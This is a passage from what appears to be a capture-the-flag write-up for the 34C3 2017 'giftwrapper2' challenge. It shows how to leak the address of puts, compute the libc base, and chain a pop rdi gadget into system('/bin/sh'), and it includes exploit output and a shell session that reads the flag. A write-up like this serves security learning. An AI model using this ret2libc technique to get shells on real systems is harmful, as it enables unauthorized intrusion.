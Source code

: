 
```shell
$ python giftwrapper2_exploit.py
[..] Opening connection to localhost on port 12345: Trying 127.0.0.1
New connection from 127.0.0.1 on port 40450
[+] Opening connection to localhost on port 12345: Done
127.0.0.1:40450 disconnected
'`\xc4\x07\xa0\xeb\x7f'
puts is at 0x7feba007c460
```

Now we know that the absolute address of `puts` is **0x7feba007c460**, and since we have the libc used by the server we can know puts' offset within that libc, we just need to open `libc-2.26.so` using binary ninja (or radare2 and use the `is` command) and navigate to `puts` function:

{{< figure src="/img/34c3-ctf-2017/giftwrapper2-binja-puts.png" class="text-center" >}}
<br/>

Here it shows that puts' offset within libc is **0x78460**, given this, we can calculate libc base address.

> libc_base = puts absolute address - puts relative offset
> 
> libc_base = **0x7feba007c460** - **0x78460** = **0x7feba0004000**


By having the libc base address we can get the absolute address of any other symbol within it, so now we just need to call `system("/bin/sh")` and have our flag.

Again using binary ninja we can get the offset of `system` as well as the string `/bin/sh`. <br>Argument for `system` are passed via the `rdi` register, so just before jumping into it we need to load rdi with the address of `/bin/sh`. 

We already have a `pop rdi` gadget so this should be easy now. The final exploit is the following:

{{< gist segflow 65ed5e55ad83ce9b5cf4aec9c0bc3ced >}}

```shell
> $ python giftwrapper2_exploit.py
[/.......] Opening connection to localhost on port 12345: Trying 127.0.0.1
New connection from 127.0.0.1 on port 40450
[+] Opening connection to localhost on port 12345: Done
127.0.0.1:40450 disconnected
'`\xc4\x07\xa0\xeb\x7f'
puts is at 0x7feba007c460
libc is at 0x7feba0004000
system is at 0x7feba0052d60
/bin/sh is at 0x7feba017a917
[*] Closed connection to localhost port 12345
[▁] Opening connection to localhost on port 12345: Trying 127.0.0.1
New connection from 127.0.0.1 on port 40452
[+] Opening connection to localhost on port 12345: Done
[*] Switching to interactive mode
         _   _
        ((\o/))
 .-------//^\\------.
 |      /`   `\     |
 |                  |
 |                  |
  ------------------

Wow! This looks so beautiful
$ id
uid=1001(challenge) gid=1001(challenge) groups=1001(challenge)
$ cat flag.txt
34C3_r0p_wr4pP3d_g1fts_ar3_tH3_b3st_g1fts
$ 
```

Flag: **34C3_r0p_wr4pP3d_g1fts_ar3_tH3_b3st_g1fts**